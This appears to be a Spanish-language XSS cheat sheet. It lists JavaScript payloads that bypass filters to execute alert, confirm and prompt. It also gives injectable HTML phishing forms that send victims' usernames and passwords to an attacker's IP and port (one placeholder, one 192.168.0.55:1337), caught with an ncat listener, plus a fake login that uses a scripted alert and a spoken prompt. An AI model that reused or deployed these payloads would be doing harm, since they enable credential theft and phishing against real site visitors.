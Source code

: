  ```
x=new class extends Function{}('alert(1)'); x=new x;
new class extends alert(1){}
new class extends class extends class extends class extends alert(1){}{}{}{}
    
alert?.()
confirm?.()
prompt?.()
`(alert())`



```


### ----------------------------------

## HTML para simular un phishing y conseguir datos por ncat


### payload a inyectar:
```
<h3>Registrate</h3>
<form action=http://<Ip>:<Puerto>>Usuario:
<br><input type="username" name="username">
</br>Contraseña:<br><input type="password" name="password"></br>
<br><input type="submit" value="Entrar"></br>

```

### para escuchar:
`ncat -lnvp puerto`


## Fake login usando inyecciones xss, html y javascript

```
<script>alert(‘Favor de iniciar sesion para continuar’)</script>
<h3>Para continuar navegado, inicie sesion</h3>
<form action=http://192.168.0.55:1337>Username:<br>
<input type=”username” name=”username”></br>Password:<br>
<input type=”username” name=”password”></br><br>
<input type=”submit” value=”Login”></br>
<script type=”text/javascript”>function speak(c){var b=new SpeechSynthesisUtterance();var a=speechSynthesis.getVoices();b.voice=a[2];b.voiceURI=”native”;b.volume=1;b.rate=1;b.pitch=1;b.text=c;b.lang=”es-ES”;speechSynthesis.speak(b)}speak(“Favor de iniciar sesion para poder continuar navegando”);</script>

```




## xss shell
